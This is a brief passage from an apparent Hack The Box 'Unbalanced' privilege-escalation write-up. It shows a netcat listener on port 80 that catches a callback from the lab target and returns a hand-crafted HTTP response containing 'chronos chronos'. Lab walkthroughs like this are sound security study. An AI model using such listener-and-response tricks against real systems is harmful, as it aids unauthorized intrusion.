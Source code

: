 ![Step 1](/assets/htb/Unbalanced/privesc/step1.png)

2. Starting a listener on port 80 and send 200-OK response with blob-data upon receiving request.

```bash
root@darkness:~# nc -lvnp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:59982.
GET / HTTP/1.1
Host: 10.10.14.22
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: */*

HTTP/1.1 200 OK

chronos chronos

^C
```
